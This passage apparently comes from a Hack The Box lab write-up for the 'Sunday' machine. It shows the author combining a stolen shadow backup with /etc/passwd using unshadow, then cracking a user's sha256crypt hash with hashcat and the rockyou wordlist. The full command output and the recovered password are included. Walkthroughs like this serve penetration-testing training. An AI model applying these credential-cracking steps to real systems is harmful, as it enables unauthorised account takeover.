 ### Password cracking

I will copy the shadow contents to my box, then I will copy the contents of `/etc/passwd` to my box too. Finally I will use `unshadow` to get hash of the user `sammy` and `sunny` and feed it to hashcat for cracking

```sh
┌─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ nano shadow.backup
┌─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ unshadow shadow.backup
Usage: unshadow PASSWORD-FILE SHADOW-FILE
┌─[✗]─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ nano passwd.txt
┌─[george@parrot]─[~/HTB/boxes/sunday]
└──╼ $ unshadow passwd.txt shadow.backup
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:/bin/sh
bin:x:2:2::/:/bin/sh
sys:x:3:3::/:/bin/sh
adm:x:4:4:Admin:/var/adm:/bin/sh
dladm:x:15:65:Datalink Admin:/:
netadm:x:16:65:Network Admin:/:
netcfg:x:17:65:Network Configuration Admin:/:
dhcpserv:x:18:65:DHCP Configuration Admin:/:
ftp:x:21:21:FTPD Reserved UID:/:
sshd:x:22:22:sshd privsep:/var/empty:/bin/false
smmsp:x:25:25:SendMail Message Submission Program:/:
aiuser:x:61:61:AI User:/:
ikeuser:x:67:12:IKE Admin:/:
lp:x:71:8:Line Printer Admin:/:/bin/sh
openldap:*LK*:75:75:OpenLDAP User:/:/usr/bin/pfbash
webservd:*LK*:80:80:WebServer Reserved UID:/:/bin/sh
unknown:x:96:96:Unknown Remote UID:/:/bin/sh
pkg5srv:x:97:97:pkg(7) server UID:/:
nobody:*LK*:60001:60001:NFS Anonymous Access User:/:/bin/sh
noaccess:*LK*:60002:65534:No Access User:/:/bin/sh
nobody4:*LK*:65534:65534:SunOS 4.x NFS Anonymous Access User:/:/bin/sh
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:100:10::/home/sammy:/usr/bin/bash
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:101:10::/home/sunny:/usr/bin/bash
```

We already know `sunny's` password, hence I will only concentrate on `sammy`

```sh
┌─[george@parrot]─[~/HTB/boxes/sunday]                                                                           
└──╼ $ hashcat -m 7400 pass.txt /usr/share/wordlists/rockyou.txt --username                                       
hashcat (v6.1.1) starting...
==========================snip===========

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha256crypt $5$, SHA256 (Unix)
Hash.Target......: $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
Time.Started.....: Sun Oct  1 22:10:15 2023 (12 mins, 44 secs)
Time.Estimated...: Sun Oct  1 22:22:59 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      278 H/s (10.97ms) @ Accel:8 Loops:512 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 203552/14344385 (1.42%)
```